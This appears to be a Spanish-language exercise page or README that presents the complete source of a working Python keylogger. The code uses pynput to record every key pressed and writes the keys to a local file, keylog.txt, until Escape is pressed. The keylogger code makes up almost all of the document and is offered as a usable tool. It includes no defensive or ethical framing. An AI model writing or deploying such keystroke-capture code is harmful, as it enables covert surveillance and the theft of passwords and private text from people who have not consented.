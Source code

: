 **#SI_T5_P1**

## Descripción
Este keylogger es una herramienta sencilla implementada en Python que registra las teclas presionadas por el usuario. Utiliza la biblioteca `pynput.keyboard` para escuchar los eventos del teclado `Listener` y escribir las teclas presionadas `Key` en un archivo de texto (`keylog.txt`).

## Funcionamiento
El keylogger captura las teclas presionadas por el usuario y las almacena en un archivo llamado `keylog.txt`. Cada vez que se presiona una tecla, también se verifica si es un espacio y se agrega al archivo `keylog.txt`. El programa se detiene cuando se presiona la tecla `escape`.

### Código
```python
from pynput.keyboard import Key, Listener

# Lista para almacenar las teclas presionadas
keys = []

# Función que se ejecuta cada vez que se presiona una tecla
def presionar_tecla(key):
    # Si la tecla presionada es la tecla espacio, agrega un espacio a la lista 'keys'
    if key == Key.space:
        keys.append(' ')
    else:
        # De lo contrario, agrega la tecla presionada a la lista 'keys' como una cadena de texto
        keys.append(str(key).replace("'", ""))
    # Llama a la función para escribir las teclas en un archivo
    convertir_string(keys)

# Función para escribir las teclas almacenadas en la lista 'keys' en un archivo
def convertir_string(keys):
    # Abre (o crea) el archivo 'keylog.txt' sobreescribiendo el archivo cada vez que es ejecutado por la (w)
    with open('keylog.txt', 'w') as logfile:
        # Escribe cada tecla de la lista 'keys' en el archivo
        for key in keys:
            logfile.write(key)

# Función que se ejecuta cada vez que se suelta una tecla
def soltar_tecla(key):
    # Si la tecla soltada es la tecla 'esc', retorna False para detener el listener
    if key == Key.esc:
        return False

# Inicializa y comienza el listener que escucha las teclas presionadas y soltadas
with Listener(on_press=presionar_tecla, on_release=soltar_tecla) as listener:
    listener.join()
